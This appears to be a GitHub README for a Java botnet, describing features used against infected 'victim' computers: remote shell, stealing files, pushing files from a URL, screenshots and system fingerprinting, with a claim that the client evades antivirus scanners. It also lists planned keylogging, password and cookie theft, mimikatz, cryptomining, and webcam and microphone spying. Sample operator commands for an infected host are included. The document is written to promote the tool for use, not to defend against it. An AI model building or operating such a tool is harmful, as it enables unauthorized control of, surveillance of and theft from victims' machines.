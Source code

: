Here is a list of all the options:

it supports 1000 users, shell acces to the client computer, information giving about the client computer like (external ip, hostname, operating system and administrator or not when your on windows ), keepalive check, screenshot, download and upload.

things that are partitional completed are: selfdestruct the client.

the client jar isn't seen by any viruscaner ( checked on date 11/3/2017 ).
the botnet is written in java with netbeans.

options that i am working on are: vnc, webcam snapshot, a keylogger, Persistence, network scan likely with nmap, passwords and cookie recovery ( also skype ), video on full screen that cant be closed, mimikatz, Distributed hash cracking, microfone spying, popup for credentials, script mining.

this are the working options:
list info : that will give you a detailed list of all the computers in the botnet and thee hostname, external ip, operating system, adn if on windows if it had administrator rights.
msgbox : this will give a msgbox on the targets computer.
download : here can you download a file from the cleint computer to the server ( full path is needed )
upload : send a file to the computers tmp using a url.
shell : here can you type cmd commands to the computer ( the shell closes automatic when the command is completed ).
screenshot : here can you make a screenshot of the defauld screen from the infecteed computer ( will be sended to the servers)
javaversion : request version of java from client computer.
exit : closes connection.

by thee options msgbox, download, upload, shell, screenshot, javaversion and exit you have to give the hostname and external ip to send to someone here some examples you can find the hostname and external ip easy with list info : 
minepc@1.2.3.4 shell dir C:\
minepc@1.2.3.4 msgbox hello
minepc@1.2.3.4 download C:\Users\mh123hack\Downloads\botnet-herder.jpg
minepc@1.2.3.4 upload http://thestartupmag.com/wp-content/uploads/2016/10/hacked.png
minepc@1.2.3.4 screenshot
minepc@1.2.3.4 javaversion
minepc@1.2.3.4 exit
list info

the victum is also the client open the victum with netbeans to control the botnet!

the botnet is supported for windows, linux, and maybe mac but i havend tested this.
the standard port for the precompiled server ( botnet-server.jar ) is 4600 but you can change this in the source code.





